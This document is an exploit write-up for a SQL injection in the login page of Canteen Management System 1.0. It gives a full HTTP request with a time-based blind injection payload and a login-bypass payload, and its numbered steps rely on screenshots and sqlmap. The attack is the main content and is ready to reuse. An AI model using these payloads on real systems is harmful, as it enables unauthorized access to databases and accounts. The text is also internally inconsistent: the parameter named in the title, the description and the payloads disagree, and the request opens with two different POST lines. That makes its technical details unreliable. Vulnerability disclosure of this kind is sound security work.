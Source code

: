 # Canteen Management System - login.php 'medicine' SQL inject

#### Exploit Title: Canteen Management System - login.php 'medicine' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

#### Software Link:https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

#### Version: Canteen Management System 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Canteen Management System does not filter the content correctly at the "login.php /username" parameter, resulting in the generation of SQL injection.

#### Payload used:

```POST /medicine_details.php HTTP/1.1
POST /login.php HTTP/1.1
Host: 192.168.67.10:8091
Content-Length: 97
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.67.10:8091
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.67.10:8091/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=g1diqn5ba9l5npktcpl5jc287t
Connection: close

username=1' AND (SELECT 6691 FROM (SELECT(SLEEP(5)))slLY) AND 'lrcD'='lrcD&password=123456&login=
```

#### Proof of Concept

1、Grab the package at the login and find that the login program is in login php

![image](https://github.com/joinia/webray.com.cn/blob/main/youthappam/images/login.png)

2、Looking at the source code, it is found that the password field is directly brought into the SQL statement query without filtering

![image](https://github.com/joinia/webray.com.cn/blob/main/youthappam/images/usernamesouce.png)

3、Use payload "sleep (10)" for blind SQL injection.It is found that the time blind injection is successful

![image](https://github.com/joinia/webray.com.cn/blob/main/youthappam/images/usernameburp.png)

4、We can also construct a payload for universal password login

payload:`email=manager%40manager.com&password=1'or '1'='1&managerLogin=`

![image](https://github.com/joinia/webray.com.cn/blob/main/youthappam/images/usernameloginsuccess.png)

4、Through testing with the tool, it is found that there are other injection methods such as blind SQL time injection.

![image](https://github.com/joinia/webray.com.cn/blob/main/youthappam/images/usernamesqlmap.png)

